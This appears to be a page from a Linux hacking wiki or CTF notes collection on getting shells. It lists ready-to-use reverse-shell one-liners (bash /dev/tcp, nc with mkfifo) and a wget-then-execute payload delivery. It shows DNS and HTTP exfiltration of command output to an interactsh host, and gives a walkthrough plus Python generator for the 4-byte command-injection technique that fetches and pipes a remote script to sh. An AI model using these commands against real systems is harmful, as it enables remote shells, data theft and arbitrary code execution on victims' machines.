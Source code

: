 ```yaml
---
description: Specific tricks to get a shell for hacking Linux-based boxes
---
```


# Shells

## Reverse Shells

{% embed url="https://www.revshells.com/" %}

{% code title="Common reverse shells" %}
```shell
bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1
sh -i >& /dev/tcp/$YOUR_IP/1337 0>&1
bash -c "bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $YOUR_IP 1337 >/tmp/f
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|sh -i 2>&1|nc $YOUR_IP 1337 >/tmp/g
```
{% endcode %}

If you find a filter or have weird/short input, try simply downloading and then executing in two separate commands:

{% code title="Attacker" %}
```shell-session
$ mkdir http
$ nano http/shell.sh  # Can be index.html to do just `wget $YOUR_IP` on the victim
$ default listen http http
```
{% endcode %}

{% code title="Victim" %}
```shell-session
$ wget $YOUR_IP/shell.sh
$ sh shell.sh
```
{% endcode %}

With very limited communication available, you can try a few things:

```shell
sleep 10  # Should wait 10 seconds if code is executed
# DNS
interactsh-client -v  # Start as attacker (https://github.com/projectdiscovery/interactsh)
nslookup nftca6lpouq.oast.live  # Any DNS request will trigger in tool
bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.nftca6lpouq.oast.live/443'  # Exfiltrate command output
# HTTP
curl nftca6lpouq.oast.live
```

### RCE in 4 bytes

Sometimes you're limited in the length of the commands you can execute. There is a technique in bash to execute commands and save things to files, and eventually execute arbitrary code by just sending multiple 4-byte commands. The technique was a solution to a challenge by [Orange Tsai](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2).&#x20;

The idea goes like this. Using file redirection with `>` you can save files with a name. Then we can slowly build out some letters to form a different command, and we can combine the letters using `dir`. This command just lists the current directory and places them all after each other separated by spaces. Using the `*` wildcard all files in the current directory will be inserted but in alphabetical order. This makes it quite hard to do much right now:

```shell-session
$ >dir  # Define dir command
$ >sl   # ls
$ >g\>  # >g
$ >ht-  # -th
$ *>v   # Execute dir command to file "v"
```

The `v` file now contains `g> ht- sl`. Reversed this would be `ls -th >g`, which allows us to list the files ordered by **time**. This way we don't have the restriction to have the command be in alphabetical order.&#x20;

```shell-session
$ >rev  # Define rev command
$ *v>x  # * wildcard matching only rev and v files, saving to x
```

Now `x` contains the desired `ls -th >g` which we can execute whenever we want. Now that the final file will be ordered by time, we can just write out the full payload character by character. Later we will create a file that has all of these separated by a newline, so we need to add a `\` at the end to escape the newline. Let's make `curl localhost:8000|sh;` for example:

```shell-session
$ >\;\\
$ >sh\\
$ >\|\\
$ >00\\
$ >80\\
$ >t:\\
$ >os\\
$ >lh\\
$ >ca\\
$ >lo\\
$ >\ \\
$ >rl\\
$ >cu\\
```

In an actual attack, you would send only one `\` at the end, but here in the interactive bash, we need to escape it ourselves. Executing the `ls -th` command we made earlier now, it gives us the desired command with backslashes to escape the newlines:

```shell-session
$ ls -th | cat
g
cu\
rl\
 \
lo\
ca\
lh\
os\
t:\
80\
00\
|\
sh\
;\
x
rev
v
ht-
g>
sl
dir
```

Finally, we can execute the `x` script to do the above command into a file called `g`. Then we can run the g script to actually run the payload that fetches a script from the `localhost:8000` address, of course, this can be any site of your own to host a malicious payload on.&#x20;

```shell-session
$ sh x  # ls -th >g
$ sh g  # Run final payload
```

To automatically run any payload you want, I made the following Python script to showcase the attack and create any payload:

{% code title="generate.py" %}
```python
import os
from time import sleep

COMMAND = "curl localhost:8000|sh;"  # Needs ; at the end for correct syntax


def is_normal_char(c):  # Safe characters that don't need to be escaped
    return c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789,._+:@%/-"

def escape(c):
    if is_normal_char(c):
        return c
    else:
        return "\\" + c

def command_to_chunks(command):
    command = list(command)  # Allows .pop() method
    result = []
    while True:  # Go through whole command
        try:
            chunk = escape(command.pop())
            if len(chunk + escape(command[-1])) <= 2:  # Test potential extra character
                chunk = command.pop() + chunk  # Add another character because enough space
            
            result.append(f">{chunk}\\")
        except IndexError:  # If done
            break
    
    return result


payload = [
    # generate "g> ht- sl" to file "v"
    '>dir',  # Define dir command
    '>sl',   # ls
    '>g\>',  # >g
    '>ht-',  # -th
    '*>v',   # Execute dir command to file "v"

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',  # Define rev command
    '*v>x',  # * wildcard matching only rev and v files, saving to x
]

payload += command_to_chunks(COMMAND)

payload += [
    "sh x",  # ls -th >g
    "sh g",  # Run final payload
]

for c in payload:
    print(c)  # Send to target

# Optional: Execute proof-of-concept locally
# for c in payload:
#     sleep(0.1)  # Wait to make sure order is correct (no race conditions)
#     if len(c) <= 4:  # Max 4 bytes
#         os.system(c)
```
{% endcode %}
